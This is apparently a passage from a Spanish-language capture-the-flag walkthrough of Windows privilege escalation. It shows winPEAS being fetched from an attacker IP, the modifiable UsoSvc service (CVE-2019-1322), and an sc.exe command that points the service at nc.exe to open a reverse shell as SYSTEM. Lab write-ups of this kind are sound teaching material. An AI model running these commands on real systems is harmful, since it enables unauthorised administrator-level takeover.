 ```
PS C:\tmp> iwr -uri http://10.10.14.26:8080/winPEASx64.exe -outfile /tmp/winPEASx64.exe
iwr -uri http://10.10.14.26:8080/winPEASx64.exe -outfile /tmp/winPEASx64.exe

PS C:\tmp> .\winPEASx64.exe
.\winPEASx64.exe

```

- ​	`iwr` es la abreviación del comando `Invoke-WebRequest` en PowerShell, que nos permite obtener contenido de una página web.

Del output de WinPEAS, lo que más nos interesa es lo siguiente:

```
  [+] Modifiable Services(T1007)
   [?] Check if you can modify any service https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
    LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
    UsoSvc: AllAccess, Start
```

Nos indica que podemos modificar el servicio [Update Orchestrator (UsoSVC)](https://appuals.com/what-is-update-orchestrator-service-and-should-it-be-disabled/), que es el responsable de descargar las actualizaciones para el sistema operativo e instalarlas después de verificar. Leyendo sobre vulnerabilidades de este servicio, encontramos la [CVE-2019-1322](https://www.nccgroup.com/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/) que permitía el escalamiento de privilegios, ya que el servicio `UsoSvc` se ejecuta como `NT AUTHORITY\SYSTEM` y estaba habilitado de manera predeterminada en Windows 10 y Windows Server 2019.

En el siguiente [link](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services) se encuentra la manera de cómo podemos modificar este servicio para tener acceso como administrador.

La información sobre cada servicio en el sistema se almacena en el registro. La llave de registro "ImagePath" generalmente contiene la ruta del archivo de imagen del controlador. Lo que vamos a hacer en este caso, es el secuestro de esta llave con un ejecutable `nc.exe` para que  cargue durante el inicio del servicio `UsoSvc`. Primero, vamos a validar la ruta del archivo en donde se está ejecutando el servicio:

```
PS C:\tmp> reg query "HKLM\System\CurrentControlSet\Services\usosvc" /v "ImagePath"
reg query "HKLM\System\CurrentControlSet\Services\usosvc" /v "ImagePath"

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\usosvc
    ImagePath    REG_EXPAND_SZ    %systemroot%\system32\svchost.exe -k netsvcs -p
```

Con el siguiente comando, vamos a modifica el valor de las entradas del servicio `UsoSvc` en el registro y en la base de datos de Service Control Manager.

```
PS C:\tmp> sc.exe config usosvc binPath= "C:\tmp\nc.exe -e cmd.exe 10.10.14.26 443"
sc.exe config usosvc binPath= "C:\tmp\nc.exe -e cmd.exe 10.10.14.26 443"
[SC] ChangeServiceConfig SUCCESS
```
